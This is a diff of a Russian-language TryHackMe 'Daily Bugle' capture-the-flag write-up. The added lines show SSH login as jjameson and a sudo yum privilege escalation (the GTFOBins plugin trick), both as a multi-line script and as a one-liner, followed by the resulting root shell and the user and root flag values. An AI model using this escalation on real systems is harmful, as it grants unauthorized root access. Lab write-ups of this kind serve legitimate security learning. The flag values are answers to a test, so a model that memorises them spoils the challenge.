

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Lin Hard - DailyBugle/writeup.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Lin Hard - DailyBugle/writeup.md
+++ b/Lin Hard - DailyBugle/writeup.md
@@ -290,12 +290,83 @@ Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-08 03:43:
 Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-08 03:43:48
 ```
 
+И получаю доступ по ssh для jjameson
+```
+[jjameson@dailybugle ~]$ ls -la
+total 16
+drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
+drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
+lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
+-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
+-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
+-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
+-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
+[jjameson@dailybugle ~]$ cat user.txt
+27a260fe3cba712cfdedb1c86d80442e
+```
 
+### sudo -l
+```
+[jjameson@dailybugle ~]$ sudo -l
+User jjameson may run the following commands on dailybugle:
+    (ALL) NOPASSWD: /usr/bin/yum
+```
+
+Эксплуатация описана тут: `https://gtfobins.github.io/gtfobins/yum/`
+В данном случае нужно это:
+```
+TF=$(mktemp -d)
+cat >$TF/x<<EOF
+[main]
+plugins=1
+pluginpath=$TF
+pluginconfpath=$TF
+EOF
+
+cat >$TF/y.conf<<EOF
+[main]
+enabled=1
+EOF
+
+cat >$TF/y.py<<EOF
+import os
+import yum
+from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
+requires_api_version='2.1'
+def init_hook(conduit):
+  os.execl('/bin/sh','/bin/sh')
+EOF
+
+sudo yum -c $TF/x --enableplugin=y
+```
+
+Но придется руками копировать и вставлять построчно - не вариант.
+Так проще, только один раз copy-paste:
+```
+TF=$(mktemp -d) && \
+echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
+echo -e "[main]\nenabled=1" > "$TF/y.conf" && \
+echo -e "import os\nimport yum\nfrom yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE\nrequires_api_version='2.1'\ndef init_hook(conduit):\n  os.execl('/bin/sh','/bin/sh')" > "$TF/y.py" && \
+sudo yum -c $TF/x --enableplugin=y
+```
+
+И получаю root
+```
+[jjameson@dailybugle ~]$ TF=$(mktemp -d) && \
+> echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
+> echo -e "[main]\nenabled=1" > "$TF/y.conf" && \
+> echo -e "import os\nimport yum\nfrom yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE\nrequires_api_version='2.1'\ndef init_hook(conduit):\n  os.execl('/bin/sh','/bin/sh')" > "$TF/y.py" && \
+> sudo yum -c $TF/x --enableplugin=y
+Loaded plugins: y
+No plugin match for: y
+sh-4.2# id
+uid=0(root) gid=0(root) groups=0(root)
+```
 
 ## 🏁 Флаги
 
-- User flag:
-- Root flag:
+- User flag: 27a260fe3cba712cfdedb1c86d80442e
+- Root flag: eec3d53292b1821868266858d7fa6f79
 
 ---
 
````
Also changed, not shown: other parts of Lin Hard - DailyBugle/writeup.md (+1 -1 lines).
